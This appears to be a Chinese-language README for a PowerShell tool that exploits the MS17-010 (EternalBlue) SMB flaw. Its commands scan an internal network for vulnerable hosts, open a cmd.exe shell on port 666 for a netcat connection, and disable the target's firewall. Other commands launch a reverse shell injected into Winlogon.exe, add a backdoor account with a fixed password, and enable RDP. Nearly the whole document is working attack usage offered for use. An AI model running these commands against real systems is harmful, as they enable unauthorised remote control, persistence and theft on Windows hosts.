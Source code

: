 原生脚本的快速使用
注：需要使用Powershell 7

```
-m //加载模版
-process //指定要注入DLL的进程 默认为lsass.exe
-Port //指定攻击端口 默认445
-x //指定要攻击系统位数
-fs //批量探测内网是否存在ms17010
-target //指定扫描的IP段
```



批量监测是否包含MS17010漏洞

```
Import-Module .\Invoke-Ms17010.ps1
checkMS -fs 1 -target 172.16.224.0-172.16.224.255
```

![image-20220818022507867](./Readme.assets/image-20220818022507867.png)

Check目标（必须执行 如果目标为XP系统则需要将OS指定为0，如果非XP系统则将OS指定为1），如果利用成功则返回系统位数，执行结果如下图所示

```
Import-Module .\Invoke-Ms17010.ps1
checkMS -target 172.16.224.15 -OS 1
```

![image-20220818022852790](./Readme.assets/image-20220818022852790.png)

使用如下命令，可以在目标的666端口上面开启一个cmd.exe的监听并用NC进行连接

```
Import-Module .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64
```

![image-20220818023049851](./Readme.assets/image-20220818023049851.png)

如果对方开启了防火墙会导致我们不能直接获取shell，但是我们可以加载firewall模版来关闭目标的防火墙

```
Import-Module .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m firewall
```

当然你可以在关闭目标防火墙之后 反弹shell

```
Import-Module .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m firewall -process Winlogon.exe -Reshell 1
```

添加用户testoaa HjjLJjj@123

```
Import-Module .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m useradd
```

开启3389并在防火墙放通行

```
Import-Module .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m openrdp
```
参考链接
https://github.com/1135/EquationExploit
